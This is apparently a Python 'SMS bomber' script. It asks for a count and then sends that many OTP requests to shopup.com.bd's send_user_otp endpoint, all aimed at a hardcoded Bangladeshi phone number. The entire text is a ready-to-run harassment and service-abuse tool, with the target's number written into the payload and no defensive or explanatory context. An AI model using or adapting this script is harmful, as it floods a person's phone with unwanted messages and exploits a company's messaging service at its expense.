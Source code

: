 # probashii
import requests from requests.structures import CaseInsensitiveDict Amo=int(input("Enter Amount: ")) url = "https://shopup.com.bd/users/send_user_otp.json"  headers = CaseInsensitiveDict() headers["Content-Type"] = "application/json"  data = """ {   "user": {     "login": "8801833268701",     "resend": false,     "type": {       "register": true     }   },   "direct_login": true } """  for i in range(Amo):     resp = requests.post(url, headers=headers, data=data)     print(resp.text)
